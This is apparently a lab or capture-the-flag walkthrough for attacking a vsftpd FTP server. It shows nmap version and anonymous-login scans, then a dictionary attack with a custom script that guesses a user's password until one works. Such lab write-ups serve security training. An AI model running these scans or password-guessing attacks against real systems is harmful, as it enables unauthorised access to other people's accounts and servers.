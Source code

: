 # VSFTPD recon basics

## Find version

```
nmap -sV 192.211.134.3
Starting Nmap 7.70 ( https://nmap.org ) at 2021-03-29 08:40 UTC
Nmap scan report for target-1 (192.211.134.3)
Host is up (0.000015s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
MAC Address: 02:42:C0:D3:86:03 (Unknown)
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 0.70 seconds
```

## Check if anonymous login allowed

```
nmap --script ftp-anon 192.211.134.3 
Starting Nmap 7.70 ( https://nmap.org ) at 2021-03-29 08:42 UTC
Nmap scan report for target-1 (192.211.134.3)
Host is up (0.000014s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE
21/tcp open  ftp
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-r--r--    1 ftp      ftp            33 Dec 18  2018 flag
|_drwxr-xr-x    2 ftp      ftp          4096 Dec 18  2018 pub
MAC Address: 02:42:C0:D3:86:03 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 0.61 seconds
```

## Perform dictionary attack - while server terminates after 3 attempts

Because session terminates after 3 login attempts, metasploit and nmap scripts wont work. [Custom script](./vsftpd-brute.py) required.

```
python break.py 192.62.102.3 billy /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt 
Trying with password:  admin
Trying with password:  123456
Trying with password:  12345
Trying with password:  123456789
Trying with password:  password
Trying with password:  iloveyou
...
Trying with password:  carlos
Login Successful for  carlos

230 
```
